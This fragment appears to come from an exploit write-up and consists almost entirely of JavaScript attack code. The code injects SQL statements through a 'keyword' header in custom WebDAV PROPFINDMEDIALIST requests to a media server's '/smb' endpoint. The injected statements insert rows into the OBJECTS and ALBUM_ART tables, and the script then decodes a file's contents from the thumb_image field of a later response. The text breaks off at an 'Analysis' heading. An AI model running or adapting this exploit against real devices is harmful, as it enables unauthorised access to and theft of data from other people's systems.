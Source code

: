 ```
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 ); INSERT INTO OBJECTS (PARENT_ID, OBJECT_ID, DETAIL_ID, CLASS) VALUES ('1$7', " + oId + ", " + dId + ", 'container.album.musicAlbum'); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/smb", {
  "headers": {

    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );  INSERT INTO ALBUM_ART (PATH, ID) VALUES ('" + path + "', " + pId + "); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/smb", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

await fetch("/smb", {
  "headers": {
    "classify": "album",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "GETMUSICCLASSIFICATION"
}).then(a => a.text()).then(b => {
var aidx = b.indexOf(author)
var pay = b.substring(b.indexOf("<thumb_image>", aidx) + "<thumb_image>".length, b.indexOf("</thumb_image>", aidx))

console.log(atob(pay))
})
})()

```
#### [###](#analysis-3) Analysis
